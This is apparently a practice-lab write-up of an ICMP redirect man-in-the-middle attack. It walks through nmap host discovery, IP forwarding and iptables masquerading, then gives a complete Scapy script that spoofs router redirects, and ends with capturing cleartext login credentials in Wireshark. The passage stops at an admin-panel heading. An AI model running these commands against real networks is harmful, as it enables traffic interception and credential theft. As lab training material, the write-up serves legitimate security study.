




# ICMP Redirect Attack

---

We are given two network subnets:

1. client's (connected) network 10.100.13.0/24
2. server's (non-connected) network 10.23.56.0/24

Begin by identifying reachable networks.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ ip route show dev eth1
10.100.13.0/24 proto kernel scope link src 10.100.13.20
```

Our network is 10.100.13.0/24

Let's use arp-scan to identify live hosts on the network.

```bash
# first the connected network
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ nmap -sn 10.100.13.0/24

Nmap scan report for 10.100.13.1
Nmap scan report for 10.100.13.126

# second the non-connected network
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ nmap -sn 10.23.56.0/24

Nmap scan report for 10.23.56.1
Nmap scan report for 10.23.56.100

```

So we have the following two discovered hosts:

1. 10.100.13.126 = client on the connected network
2. 10.23.56.100 = server on the non-connected network

Let's scan for open services on each endpoint

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 10.100.13.126 10.23.56.100

Nmap scan report for 10.100.13.126
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
111/tcp   open  rpcbind 2-4 (RPC #100000)
51365/tcp open  status  1 (RPC #100024)

Nmap scan report for 10.23.56.100
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: ### SPORTS.COM - Soccer website ###
111/tcp   open  rpcbind 2-4 (RPC #100000)
43423/tcp open  status  1 (RPC #100024)

```

## Configure IP Masquerading

Now that we have identified the client and the server we can configure our IP Masquerading.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ echo 1 > /proc/sys/net/ipv4/ip_forward

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o eth1 -j MASQUERADE
```

## Create ICMP Redirect Script with Scapy

Here is the ICMP redirect script we will use with Scapy

```bash
originalRouterIP='10.100.13.1'
attackerIP='10.100.13.20'
victimIP='10.100.13.126'
serverIP='10.23.56.100'
# We create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
```

Launch Scapy and paste the script

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ scapy

# remove the comments below
>>> originalRouterIP='10.100.13.1'
>>> attackerIP='10.100.13.20'
>>> victimIP='10.100.13.126'
>>> serverIP='10.23.56.100'
# We create an ICMP Redirect packet
>>> ip=IP()
>>> ip.src=originalRouterIP
>>> ip.dst=victimIP
>>> icmpRedirect=ICMP()
>>> icmpRedirect.type=5
>>> icmpRedirect.code=1
>>> icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
>>> redirPayloadIP=IP()
>>> redirPayloadIP.src=victimIP
>>> redirPayloadIP.dst=serverIP
>>> fakeOriginalTCPSYN=TCP()
>>> fakeOriginalTCPSYN.flags="S"
>>> fakeOriginalTCPSYN.dport=80
>>> fakeOriginalTCPSYN.seq=444444444
>>> fakeOriginalTCPSYN.sport=55555
>>> while True:
...:     send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)

```



## Intercept Data with Wireshark

The ICMP Redirect is now underway and we can observe the traffic between the host and server in Wireshark

First filter out the ICMP traffic



Then follow the TCP Stream for the POST request to _/login_success.php_



We can see that we have the cleartext credentials for the server.



## Access Administration Panel
